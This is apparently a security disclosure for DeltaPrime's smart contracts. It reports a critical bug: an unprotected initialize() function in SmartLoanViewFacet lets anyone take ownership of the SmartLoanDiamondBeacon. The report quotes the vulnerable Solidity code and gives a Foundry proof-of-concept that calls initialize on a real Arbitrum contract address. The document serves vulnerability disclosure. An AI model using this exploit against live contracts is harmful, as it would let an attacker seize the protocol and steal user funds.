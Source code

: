 ## [C-01] Contract hijack via unprotected initialize in SmartLoanViewFacet.sol

               
_Severity:_ Critical            

_Target:_ https://github.com/DeltaPrimeLabs/deltaprime-primeloans/blob/main/contracts%2Ffacets%2FSmartLoanViewFacet.sol#L41



### Summary:

DeltaPrime maintains all user's prime accounts in the pattern of “Proxy+implementation” where each prime account is a proxy pointing to the implementation contract. The implementation contract, i.e., “SmartLoanDiamondBeacon”, adheres to the EIP-2535 standard (Diamond) and can only be managed by the protocol owner. This means that if a malicious user can manage to become the owner of the "SmartLoanDiamondBeacon" contract, he can gain control over all users' Prime accounts.

I did indeed discover such a vulnerability. this vulnerability involves a facet contract called “SmartLoanViewFacet”. This contract includes an “initialize()” function, originally designed to initialize the owner for a new prime account. However, we noticed that a hacker can directly call the “SmartLoanViewFacet::initialize()” function to hijack the owner of the “SmartLoanDiamondBeacon” contract.

```solidity
      // SmartLoanViewFacet.sol
@audit-bug--> // ⚠️ Owner did not call initialize, hence, anyone can call it and steal the contract
    function initialize(address owner) external {
        require(owner != address(0), "Initialize: Cannot set the owner to a zero address");
        require(address(this) != DeploymentConstants.getDiamondAddress(), "DiamondInit: Cannot initialize DiamondBeacon");

        DiamondStorageLib.SmartLoanStorage storage sls = DiamondStorageLib.smartLoanStorage();
        require(!sls._initialized, "DiamondInit: contract is already initialized");
        DiamondStorageLib.setContractOwner(owner);
        sls._initialized = true;
    }
```



### Impact:

With ownership of the “SmartLoanDiamondBeacon” contract, the hacker can arbitrarily modify the functionalities of the implementation for all prime accounts, enabling the hacker to steal all the protocol funds, including the funds in all DeltaPrime lending pools and all Prime Accounts. The estimated total loss is >$50M. For example, the hacker can add a “freeBorrow()” function to borrow all the lending pool funds without any solvency check.

Furthermore, once the owner of the “SmartLoanDiamondBeacon” contract is hijacked, there is no way for DeltaPrime to take it back or mitigate the exploit, which means the protocol is totally controlled by the hacker.



### Proof of concept (POC):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISmartLoanDiamondBeacon {
    function initialize(address owner) external;
}

contract DeltaPrimePoC is Test {
    address constant SmartLoanDiamondBeacon = 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c;
    address constant maliciousOwner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4; // Put any attacker address

    function setUp() public {
        vm.createSelectFork(vm.envString("ARB_RPC_URL"), 234980496);
    }

    function test_Initialize_Targets() public {
           ISmartLoanDiamondBeacon(SmartLoanDiamondBeacon).initialize(maliciousOwner);
        }
    }
```



### Output:

![DeltaPrimePoCResult](https://github.com/user-attachments/assets/3436464d-6d50-4440-b657-2adb23f9dbb5)
